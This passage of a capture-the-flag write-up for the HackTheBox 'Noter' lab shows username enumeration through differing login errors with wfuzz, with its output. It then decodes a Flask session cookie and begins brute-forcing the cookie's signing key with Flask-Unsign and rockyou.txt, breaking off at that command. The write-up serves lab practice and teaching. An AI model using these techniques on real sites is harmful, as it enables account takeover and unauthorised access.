 ```
I've registered two accounts on the Noter application located at http://noter.htb:5000/ and started to create notes.

There are a few Takeaways:
1. The numbers assigned to the notes in the URL query parameter are **consecutive**.
 2. The first assigned note number to my notes was **#3**, indicating that note **#1** and **#2** must exist.
3. We can't access note **#1** and **#2** - indicating, that some session handling/authorization is in place.

### Login Form User Enumeration
Failed logins on the webpage with ```invalid``` usernames throws an```Invalid credentials``` erro and failed login with a ```valid``` username throws ```Invalid login``` error.


With ```wfuzz``` we can create a simple fuzzer that enumerates valid usernames:
```
┌──(kali㉿kali)-[~/htb/noter]
└─$ wfuzz -c -z file,/usr/share/seclists/Usernames/Names/names.txt --ss "Invalid login" -d "username=FUZZ&password=anything" http://noter.htb:5000/login 
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://noter.htb:5000/login
Total requests: 10177

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                  
=====================================================================

000001208:   200        68 L     110 W      2030 Ch     "blue"                                                                   

Total time: 66.81313
Processed Requests: 10177
Filtered Requests: 10176
Requests/sec.: 152.3203
```
| Username |
| --- |
| blue |

### Cookie Tampering - Session Manipulation
```nmap``` indicated that the tech stack has ```Werkzeug``` running - maybe we can crack the session cookie and manipulate our session via ```Flask Cookie Re-Signing```.

For the manipulation process I've used ```Flask-Unsign```: https://github.com/Paradoxis/Flask-Unsign

First, we decode our own session cookie, to inspect the contents:
```
┌──(kali㉿kali)-[~/htb/noter]
└─$ /home/kali/.local/bin/flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoieWVlYiJ9.Yq3VSA.PMpvwDdfnW8BPBZeBSgir9H32tQ'
{'logged_in': True, 'username': 'yeeb'}
```

Bruteforcing the siging key with ```rockyou.txt```:
```
┌──(kali㉿kali)-[~/htb/noter]
└─$ /home/kali/.local/bin/flask-unsign  --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoieWVlYiJ9.Yq3VSA.PMpvwDdfnW8BPBZeBSgir9H32tQ' --no-literal-eval
